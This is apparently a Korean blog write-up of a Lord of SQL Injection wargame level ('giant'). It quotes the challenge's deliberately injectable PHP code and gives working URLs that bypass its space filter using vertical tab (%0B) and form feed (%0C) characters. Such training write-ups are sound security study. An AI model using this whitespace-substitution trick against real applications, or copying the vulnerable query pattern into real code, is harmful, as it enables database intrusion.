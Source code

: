 ```yaml
---
title: Lord of SQL Injection Write Up No.14 Giant
date: 2019-08-25 23:19:56
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 14번 giant 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`\n`, `\r`, `\t`, `(공백)` 을 포함하지 않고 SQL Injection을 하여 공백 효과를 낼 수 있는지 확인한다.

### 필요 배경 지식

#### `(공백)`, `\n`, `\r`, `\t`을 제외한 한 문자 공백문자 대체

1. VT(Vertical Tab)
   ASCII Code 표를 살펴보면 16진수로 `0x0B`는 Vertical Tab에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.
2. FF(Form Feed)
   ASCII Code 표를 살펴보면 16진수로 `0x0C`는 Form Feed에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

### 소스 코드 분석

giant 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(strlen($_GET[shit])>1) exit("No Hack ~_~");
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe");
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result[1234]) solve("giant");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(strlen($_GET[shit])>1) exit("No Hack ~_~");
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe");
```

- GET 방식으로 `shit`를 받고, `shit`의 길이가 `1` 초과이면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `shit`에 `(공백)`, `\n`, `\r`, `\t` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result[1234]) solve("giant");
```

- 받은 `shit`이 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '`$result[1234]`에 참이 되는 어떤 값이든 들어 있음'이다. 즉, `$_GET[shit]`에 공백 역할을 하는 문자를 삽입하면 풀린다.

## Solution

1. Vertical Tab 이용

   `%0B`(Vertical Tab)을 GET 방식으로 `shit`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0B
   ```

2. Form Feed 이용

   `%0C`(Form Feed)을 GET 방식으로 `shit`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0C
   ```
